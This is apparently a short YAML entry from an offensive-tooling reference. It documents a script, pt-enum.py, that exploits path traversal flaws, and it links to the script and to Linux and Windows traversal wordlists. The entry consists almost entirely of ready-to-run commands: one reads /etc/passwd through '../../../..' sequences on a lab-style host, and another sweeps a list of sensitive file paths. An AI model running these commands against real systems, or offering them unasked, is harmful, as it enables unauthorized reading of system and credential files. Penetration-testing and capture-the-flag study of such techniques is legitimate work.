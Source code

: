 ```yaml
---
functions:
  enumeration:
    - description: Use a script to automatically exploit a path traversal vulnerability
                   and output results
      code: |
        pt-enum.py --base-url "http://10.10.10.194/news.php?file=" --path "../../../.." --file "/etc/passwd"
        pt-enum.py --base-url "http://10.10.10.194/news.php?file=" --path "../../../.." --list /home/unknown/Documents/Scripts/path-traversal/linux

resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/pt-enum.py
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/path_traversal_linux
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/path_traversal_windows
---
```

